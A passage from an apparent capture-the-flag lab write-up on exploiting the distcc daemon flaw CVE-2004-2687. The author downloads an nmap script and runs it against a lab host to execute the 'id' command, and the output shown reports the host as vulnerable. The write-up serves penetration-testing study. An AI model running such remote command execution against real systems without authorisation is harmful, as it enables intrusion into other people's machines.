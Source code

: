 ### nmap Script

Searching on the CVE leads to not only the Metasploit exploit, but also
[this nmap
script](https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse). It's
not a script included with `nmap` by default, but I can download it and
store it in my scripts directory. `locate` is useful to find where the
scripts are stored:



    root@kali# locate *.nse | head
    /usr/share/exploitdb/exploits/hardware/webapps/31527.nse
    /usr/share/exploitdb/exploits/multiple/remote/33310.nse
    /usr/share/legion/scripts/nmap/shodan-api.nse
    /usr/share/legion/scripts/nmap/shodan-hq.nse
    /usr/share/legion/scripts/nmap/vulners.nse
    /usr/share/nmap/scripts/acarsd-info.nse
    /usr/share/nmap/scripts/address-info.nse
    /usr/share/nmap/scripts/afp-brute.nse
    /usr/share/nmap/scripts/afp-ls.nse
    /usr/share/nmap/scripts/afp-path-vuln.nse



I'll download it into `/usr/share/nmap/scripts/`:



    root@kali# wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse -O /usr/share/nmap/scripts/distcc-exec.nse
    --2020-04-07 14:38:26--  https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
    Resolving svn.nmap.org (svn.nmap.org)... 45.33.49.119, 2600:3c01::f03c:91ff:fe98:ff4e
    Connecting to svn.nmap.org (svn.nmap.org)|45.33.49.119|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3519 (3.4K) [text/plain]
    Saving to: ‘/usr/share/nmap/scripts/distcc-exec.nse’

    /usr/share/nmap/scripts/distcc-exec.nse    100%[=======================================================================================>]   3.44K  --.-KB/s    in 0s      

    2020-04-07 14:38:27 (54.8 MB/s) - ‘/usr/share/nmap/scripts/distcc-exec.nse’ saved [3519/3519]



Now I can run it and get results:



    root@kali# nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='id'"
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 14:38 EDT
    Nmap scan report for 10.10.10.3
    Host is up (0.014s latency).

    PORT     STATE SERVICE
    3632/tcp open  distccd
    | distcc-exec: 
    |   VULNERABLE:
    |   distcc Daemon Command Execution
    |     State: VULNERABLE (Exploitable)
    |     IDs:  CVE:CVE-2004-2687
    |     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
    |       Allows executing of arbitrary commands on systems running distccd 3.1 and
    |       earlier. The vulnerability is the consequence of weak service configuration.
    |       